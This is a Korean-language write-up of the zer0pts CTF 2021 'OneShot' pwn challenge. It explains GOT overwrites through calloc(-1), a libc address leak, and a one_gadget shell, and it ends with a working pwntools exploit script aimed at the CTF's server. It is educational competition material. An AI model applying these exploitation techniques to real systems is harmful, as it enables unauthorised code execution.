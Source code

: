 ```yaml
---
layout: post
title: zer0pts CTF 2021 OneShot write-up
categories: ctf-write-up
tags: [ctf]
---
```



## OneShot (192pts, 23solves)

---

### Summary

1. calloc(-1, ...) is return 0
2. puts_got → main
3. exit_got → 0x400846
4. setbuf_got → puts_plt+6 (leak!)
5. alarm_got → main+1
6. puts_got → one_gadget

---

정말 힘들게 풀었다. 이게 이렇게 푸는게 맞는건가란 생각을 되게 많이했다. 진짜 이 문제를 풀기 위해 별의 별 시도를 다 해봤지만 너무 길어지기에 생략한다.



calloc의 반환 값을 기준으로 원하는 offset에 4바이트씩 값을 넣을 수 있다. calloc 인자로 -1을 주면 0을 반환하기 때문에 0에서부터 원하는 offset에 값을 쓸 수 있고 이를 이용하면 GOT 영역에 값을 쓸 수 있다.



또한 calloc의 인자에 0xa000을 주면 libc 영역에 할당되어서 libc쪽 주소도 변조가 가능한데, 이를 이용해서 다양한 작업도 가능했지만 결과적으로 exploit시엔 사용하지 않았다.



일단 이 문제에서 우리가 변조 가능한 주소는 한정적이다. 무조건 4byte 단위로만 덮을 수 있기 때문에 덮다가 터지는 주소들이 몇개 있다. 이는 stdin, stdout, calloc, printf, scanf이다. 이를 제외하고 원하는 값을 덮을 수 있다.



가장 먼저 해야할 일은 puts_got를 main으로 덮어서 프로그램을 반복시키는 것이다. 그 후에 leak을 어떻게 시키면 좋을지 생각하다가 setbuf를 이용하기로 했다.



setbuf는 init_array에 등록된 setup 함수에 의해 호출되는데 이 함수 내부의 opcode를 조금 다르게 끊어서 보면 이런 가젯이 있다.

```assembly
.text:0000000000400846                 add    eax,0x200815
.text:000000000040084A                 mov    rsi, 0
.text:0000000000400850                 mov    rdi, rax
.text:0000000000400853                 call   setbuf@plt
```



이런 이상한 가젯을 사용하게 된 이유는 저 주소로 이동하게 되면 그 이후에 ret를 만나면서 스택의 최상단에 있는 주소로 이동하는데 그 주소와 eax에 들어가 있는 주소와 동일하다. 



우리가 leak할 libc 주소는 bss 영역에 저장되어 있고 그 주소들은 0x601000 영역인데, 저 가젯을 이용한다면 0x400000 영역으로 이동하는 동시에 0x601000 영역의 주소를 출력할 수 있게 된다.



여러 주소를 테스트해보다가 eax 값을 0x40082b로 주면 릭이 되는 동시에 `call alarm`으로 이동하는 것을 확인 했다.



그럼 일단 eax를 조작할 수 있어야한다. exit_got를 위의 가젯으로 변조한 뒤 scanf에서 0x40082b를 넣으면 eax에 해당 값이 담기면서 이동한다. 이 코드를 보면 이해가 될 것이다.

```assembly
.text:0000000000400766                 lea     rax, [rbp+var_10]
.text:000000000040076A                 mov     rsi, rax
.text:000000000040076D                 lea     rdi, aD         ; "%d"
.text:0000000000400774                 mov     eax, 0
.text:0000000000400779                 call    ___isoc99_scanf
.text:000000000040077E                 mov     eax, [rbp+var_10]
.text:0000000000400781                 cmp     eax, 0FFh
.text:0000000000400786                 jle     short loc_400792
.text:0000000000400788                 mov     edi, 1          ; status
.text:000000000040078D                 call    _exit
```



그리고 또 중요한 것이 setbuf 주소를 printf_plt로 주면 printf의 구조적인 문제로 인해 프로그램이 터지게된다. 그렇다고 puts_plt를 줘버리면 이미 puts는 main으로 변조되어 있다. 하지만 이때 puts_plt+6 주소를 넣어주게 되면 puts가 정삭적으로 작동하게 된다.



이제 alarm을 main으로 변조해주고 leak된 주소를 특정 함수의 got에 넣어주면 될 거 같지만 alarm_got를 main으로 바꾸면 다시 printf의 구조적인 문제로 인해 터지게 된다. 근데 이는 main+1 주소로 해주면 해결 된다. (push rbp를 하지 않기 때문에)



그럼 이제 one_gadget 주소를 특정 함수의 got에 덮으면 되는데 원래 exit를 덮을려고 했으나 4바이트를 덮자마자 프로그램이 종료되었다. 그 이유는 위에서 setbuf를 puts_plt+6으로 덮음으로써 실제 puts_got에 puts의 실제주소가 쓰였기 때문이다.



그래서 더이상 main으로 돌아가지 않았다. 그러므로 puts의 하위 4바이트에 one_gadget을 넣음으로서 셸을 획득했다.

```python
from pwn import *

#p = process('./chall', env={'LD_PRELOAD':'./libc.so.6'})
p = remote("pwn.ctf.zer0pts.com", 9004)
e = ELF('./chall')

def go(a, b):
    p.sendlineafter('= ', '-1')
    p.sendlineafter('= ', str(a))
    p.sendlineafter('= ', str(b))

go(e.got['puts']/4, e.symbols['main'])
go(e.got['exit']/4, 0x400846)
go(e.got['setbuf']/4, e.plt['puts']+6)
go((e.got['setbuf']+4)/4, 0)
go(e.got['alarm']/4, 0x400738)
go((e.got['alarm']+4)/4, 0)
p.sendlineafter('= ', str(0x40082b))

libc_base = u64(p.recv(6).ljust(8, '\x00')) - 0x66230
print hex(libc_base)

one = libc_base + 0xe6e79
go(e.got['puts']/4, one & 0xffffffff)

p.interactive()
```
